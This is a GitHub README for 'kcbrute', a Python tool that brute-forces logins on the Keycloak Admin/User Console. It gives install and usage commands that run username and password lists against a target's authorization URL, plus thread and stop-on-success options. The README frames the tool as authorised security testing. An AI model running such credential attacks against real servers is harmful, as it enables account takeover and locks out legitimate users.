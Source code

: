 [![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.12-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">
<img src="https://img.shields.io/badge/Experimental-121212">

## Purpose
Basic brute-force script targeting the standard Keycloak Admin/User Console browser login flow.  
![Screenshot 2025-03-27 142402](https://github.com/user-attachments/assets/dd260042-3c4a-4ec1-a917-a42b7cddc11e)

#### ❗Disclaimer
This script may temporarily and/or permanently lock user accounts if **brute force detection** is enabled on the target Keycloak server. Unauthorized use is illegal. Created For security testing purposes only. You are responsible for your actions.

## Installation
```
git clone https://github.com/t3l3machus/kcbrute && cd kcbrute && pip3 install -r requirements.txt
```


## Usage
1. Copy the full URL of the target keycloak server you wish to attack. It typically looks something like this:
  ```
  https://192.168.1.51:8443/realms/master/protocol/openid-connect/auth?client_id=security-admin-console&redirect_uri=https%3A%2F%2F192.168.1.51%3A8443%2Fadmin%2Fmaster%2Fconsole%2F&state=d47a2004-6749-4651-8955-  ae1bd290ad82&response_mode=query&response_type=code&scope=openid&nonce=42c82af0-fb83-4211-90b6-6404226bb092&code_challenge=xqljsSmaLXaBRzouH6LhEq7PaomvhUDE-bNeHSCRd_U&code_challenge_method=S256
  ```
  **Important**: If you have visited the login URL in the past, delete all cookies and perform a hard refresh (`CTRL + SHIFT + R`) before copying the URL.  

2. Fire up `kcbrute` providing the login URL, username and password lists of your choice:
  ```
  python3 kcbrute.py -l 'https://192.168.1.51:8443/realms/master/protocol/openid-connect/auth?client_id=security-admin-console&redirect_uri=https%3A%2F%2F192.168.1.51%3A8443%2Fadmin%2Fmaster%2Fconsole%2F&state=d47a2004-6749-4651-8955-ae1bd290ad82&response_mode=query&response_type=code&scope=openid&nonce=42c82af0-fb83-4211-90b6-6404226bb092&code_challenge=xqljsSmaLXaBRzouH6LhEq7PaomvhUDE-bNeHSCRd_U&code_challenge_method=S256' -u usernames.txt -p passwords.txt
  ```

### Supported options:
```
usage: kcbrute.py [-h] -l LOGIN_URL -u USERNAMES_FILE -p PASSWORDS_FILE [-t THREADS] [-r] [-s] [-q] [-v]

Basic brute-force script targeting the standard Keycloak Admin/User Console browser login flow.

options:
  -h, --help            show this help message and exit

BASIC OPTIONS:
  -l LOGIN_URL, --login-url LOGIN_URL
                        Full Keycloak OpenID Authorization Endpoint URL to attack (Typically something like: https://keycloak.example.com/realms/{REALM}/protocol/openid-
                        connect/auth?client_id={CLIENT_ID}&redirect_uri={REDIRECT_URI}&state={UUID}&response_mode={MODE}&response_type={TYPE}&scope=openid&nonce={UUID}&code_challenge={TOKEN}&code_challenge_method={TYPE} ).
  -u USERNAMES_FILE, --usernames-file USERNAMES_FILE
                        File containing a usernames list.
  -p PASSWORDS_FILE, --passwords-file PASSWORDS_FILE
                        File containing a passwords list.
  -t THREADS, --threads THREADS
                        Number of threads to use.
  -r, --accept-risk     By selecting this option, you consent to attacking the host.
  -s, --success-stop    Stop upon finding a valid pair.

OUTPUT:
  -q, --quiet           Do not print the banner on startup.
  -v, --verbose         Verbose output.

```

